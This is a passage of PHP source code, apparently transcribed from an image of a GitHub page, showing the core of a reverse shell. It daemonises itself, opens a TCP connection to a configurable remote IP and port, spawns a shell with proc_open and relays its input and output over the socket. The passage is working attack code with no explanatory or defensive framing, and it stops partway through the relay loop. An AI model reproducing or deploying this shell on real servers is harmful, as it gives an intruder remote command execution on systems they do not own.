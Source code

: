 ```
        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }

        // Check for end of STDOUT
        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
```